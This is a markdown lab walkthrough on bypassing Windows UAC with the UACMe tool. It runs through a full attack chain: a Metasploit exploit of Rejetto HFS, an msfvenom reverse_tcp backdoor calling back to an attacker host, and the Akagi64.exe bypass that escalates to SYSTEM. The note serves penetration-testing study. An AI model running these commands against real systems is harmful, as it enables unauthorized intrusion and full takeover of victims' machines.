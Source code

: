 Bypassing UAC With UACMe

#### UAC
- User Account Contorl is a Windows Security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the adminitrator or a user account that is part of the local adminitrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt,whereas a privileged user will be prompted with a consent prompt.
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.
#### Bypassing UAC
- In order to successfully bypass UAC,we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges,consequently prompting the user for confirmation.
- There are multiple tools and technique that can be used to bypass UAC,however,the tool and technique used will depend on the version of Windows running on the target system.

#### Bypassing UAC with UACMe
- UACMe is an open source,robust privilge escalation tool developed by @hfire0x.It can be used to bypass Windows UAC by leveraging various techniques
- - Github: https://github.com/hfiref0x/UACME
- The UACMe github repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
- It allows attackers to execute malicious payloads on a windows target with administrative/elevated privilges by abuisng the inbuit windows AuteElevated tool.
- The UACMe github repository has more than 60 exploits that can be used to bypass UAC  depending on the version of Windows running on the target.

#### in commnad prompt cmd
- net  users [ this will list all the users]
- net localgroup administrator [ this will list all the local members group of administrator ]
#### managing uac control
- in windows search for uac
- set the security level from GUI
#### Exploiting
- nmap 10.2.22.220 [ this will list all the services]
- service postgresql start
- msfconsole
- setg RHOSTS 10.2.22.220
- search rejetto [ as rejetto is running on the server]
- use exploit/windows/http/rejetto_hfs_exec 
- set everything requires
- this will give meterpreter session
- sysinfo [ for basic information ]
- pgrep explorer  [ for migrate to explorer session this will give us id ]
-  migrate 2448 [ 2448 found from previous command id and this will give us x64 bit windows ,we can check it again using sysinfo] 
- getuid [ for checking user ]
- getprivs [ trying to get privileges the current user have]
- shell [ for getting shell ]
- net users [ list all users ]
- net localgroup administrators [ this will show members of administrative group ]
- As our current user is part of administrative group we can use UAC for privilege escalation
- now back to meterpreter sessions
- now we need to create msfvenom paylaods so move into new tab
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT= 1234 -f exe > 'backdoor.exe'
- now open msfconsole in new tab
- use multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST 10.10.5.2
- set LPORT 1234
- now back to previous meterpeter sessions
- cd C:\\ [move to root folder\
- mkdir Temp [ create Temp directory ]
- "uplaod backdoor.exe  ."[ here backdoor.exe is msfvenom payload]
- "upload /root/Desktop/tools/UACME/Akagi64.exe ."[ this will upload  uacme binaries into temp folder ]
- shell [ get a shell ]
- Akagi64.exe 23 C:\Temp\backdoor.exe [ here 23 is method from github module, we need to give full path for backdoor.exe ]
- this will give us new meterpreter session in multi/handler
- getprivs  [ this will give us all the privileges it has ]
- ps [ list all the processes ]
- migrate 688 [ here 688 is process number,as we are privileged we can migrate to any process ]
- getuid [ this will show us NT AUTHORITY\SYSTEM ]
  
